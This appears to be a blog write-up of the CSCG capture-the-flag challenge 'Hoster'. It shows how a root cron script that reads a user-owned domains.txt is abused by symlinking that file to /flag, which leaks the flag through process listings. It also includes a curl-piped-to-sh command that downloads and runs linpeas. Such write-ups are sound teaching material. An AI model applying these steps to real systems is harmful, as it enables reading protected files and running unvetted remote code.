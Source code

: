 +++
title = "Hoster"
date = 2023-10-04T13:42:44+02:00
+++


From the CSCG platform we get the following start point: `ssh -p 2222 6bfb5ca42833fe6481fc1f66-1024-hoster@challenge.cscg.live`.
So I connected by ssh and found myself in a pretty standard linux server environment. I looked around and found out that I am the user `ctf`. We own one directory called `config` and in there is only one file called `domains.txt` which we can't access, as it belongs to user and group `root`.
Further investigation showed, that the flag is located in `/flag` and that there is also a file called `run.sh`.
Obviously we cannot read the flag file, this would have been too easy for a medium challenge.
But the `run.sh` is readable to us, and it contains:

```sh
#!/bin/bash

cron
dropbear -FBREkwp 1024
```

Probably we want to get more privileges to read the `/flag` file through on of those commands.

## List processes

Then, I looked further with `ps auxe` what processes are running and saw that there is a `dropbear -FBREkwp 1024`. As I didn't know what it's purpose was I looked it up. It is a neat little ssh server. So I tried to connect to port 1024, but this is not possible as I get `Connection refused`. Next, I noticed that the ssh command contains `1024` and opening another connection to port 2222 results in another `dropbear` command in the processes. So that is how CSCG handles their ssh connections. The option `-B` stands for `Allow blank logins`, so there is no need to type in a password.
All in all `dropbear` is not the important part for the challenge, as it hosts the challenge.

## Another interesting process

So `/run.sh` has another command called `cron`. Cronjobs are being executed by `crontab` e.g. hourly or minutely. So let's list them:

```sh
...
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
```

Unfortunately, we can see running cronjobs from root, as we are not in its group.

## Linpeas and a discovery

So in my despair I ran `curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh`. This executes the script called linpeas which looks for unfamiliar files, which may be used for privilege escalations.
After looking through it for several minutes I stumbled upon `Unexpected in /opt (usually empty)` and in there a directory called `scripts`. In this directory I found the following bash script called `request_certificates.sh`:

```sh 
#!/bin/bash

for file in /var/www/*; do
    echo "$file"
    if ([ -f $file/config/domains.txt ])
    then
        while IFS="" read -r p || [ -n "$p" ]
        do
            if ( dig "$p" | grep -q 'NXDOMAIN' ) || ( dig "$p" 2>&1 | grep -q 'Invalid' ) || ( dig "$p" | grep -q 'SERVFAIL' )
            then
                echo "[-] Error resolving the domain"
            else
                curl -I "$p"
                # certbot -d "$p"
            fi
        done < $file/config/domains.txt
    else
        echo "[-] Not a file"
    fi
```

So this script uses each line in domains.txt to first `dig` and then `curl` it to see if it's online.
The `certbot` command is commented out and not important for us.
Maybe it is possible to break out of those commands and read the flag? But how?
One possibility would be, that cron of the root user uses the request_certificates.sh and requests them regularly, like each minute.
So we could try to modify the `domains.txt` to see what will happen exactly.
As the directory `config` belongs to us, we can remove it and create a new one with a new `domain.txt`. In there we type `example.com`. Fortunately, we can execute `request_certificates.sh`, as we do this and the domain `example.com` is being digged and curled.
We create a new cronjob with `crontab -e` to see if domains.txt is called. So we enter: `* * * * * /opt/scripts/request_certificates.sh`.
We watch the `ps auxf` command, to see if it will be executed, via `while sleep 0.5; do ps auxf; done`.
To following is being executed minutely:

```sh
...
root        1223  0.0  0.0   7020  3308 ?        S    14:00   0:00  \_ CRON
root        1224  0.0  0.0   2888  1008 ?        Ss   14:00   0:00      \_ /bin/sh -c /opt/scripts/request_certificates.sh
root        1226  0.0  0.0   4360  3068 ?        S    14:00   0:00          \_ /bin/bash /opt/scripts/request_certificates.sh
root        1230  0.0  0.0   4360   252 ?        S    14:00   0:00              \_ /bin/bash /opt/scripts/request_certificates.
root        1231  0.0  0.0 132568 12820 ?        Sl   14:00   0:00                  \_ dig example.com
...
```

So far so good, we see that dig uses the first line as command argument.

Is it now somehow possible, that we can curl `/flag` or something similar? The request script uses `$p` in quotation marks, maybe this could be helpful.
Maybe we could read the file through the `"$p"`. But how could we read the file? Well, if we try symlinking the domains.txt to the flag, then it is called in the processes and reads it. So let's try that.
First, we need to remove domains.txt again, so that we can create a symlink. We symlink the flag to domains like so: `ln -s /flag domains.txt`.
And if we watch again, with `while true; do ps aux | grep dig; done`, we see this:

```sh
root        6379  0.0  0.0  25220  2092 ?        R    14:25   0:00 dig CSCG{1nject1ng_0pti0ns_1nste4d_of_c0mm4nds}
```

So there is our flag, yay. And all due to symlinks and command arguments which show in the processes, hooray.
